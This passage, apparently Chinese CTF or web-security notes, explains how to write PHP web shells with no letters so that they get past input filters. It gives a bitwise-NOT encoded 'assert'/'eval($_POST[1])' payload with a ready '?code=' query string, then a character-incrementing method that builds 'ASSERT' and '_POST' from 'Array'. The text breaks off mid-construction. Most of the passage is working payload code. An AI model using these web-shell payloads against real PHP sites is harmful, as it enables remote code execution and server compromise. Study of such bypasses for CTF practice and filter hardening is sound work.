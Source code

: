 #### **取反**

[取反或者异或绕过](https://blog.csdn.net/mochu7777777/article/details/104631142)

> **取反马**
>
> ```php
> <?php
> echo urlencode(~'assert').'\n';
> echo urlencode(~'eval($_POST[1])');
> ?>
> %9E%8C%8C%9A%8D%8B
> %9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6
> ?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
> ```
>

还可以汉字取反

#### 递增构造

这得借助PHP的一个小技巧：[参见文档](https://www.php.net/manual/zh/language.operators.increment.php)

也就是说`'a'++ =>'b','b'++ =>'c'` 只能 ++ 不能 -- 更不能直接加数字

在无字母中得到字母也有办法

```php
$_.=[];  //$_='Array' $_[0]='A'
```

这样就可以构造出所有的字母

例：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
```